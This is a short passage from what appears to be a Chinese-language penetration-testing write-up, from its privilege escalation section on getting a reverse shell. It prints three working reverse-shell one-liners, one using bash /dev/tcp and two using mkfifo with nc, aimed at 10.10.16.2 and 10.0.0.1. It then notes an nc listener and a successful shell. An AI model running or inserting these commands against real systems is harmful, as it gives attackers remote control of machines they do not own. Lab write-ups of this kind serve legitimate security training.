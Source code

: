 # 三、权限提升

## 7.使用 bash 反弹 shell

```plain
bash -c 'bash -i >%26 /dev/tcp/10.10.16.2/443 0>%261
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 443 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[![](assets/1703640271-0ba1813596196be6eb03639f9ee2619d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155756-7b19fc20-a3c4-1.png)

nc 进行监听

[![](assets/1703640271-039fdb69dc9a932b3364b7597e52d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155808-8230e794-a3c4-1.png)

成功反弹 shell。
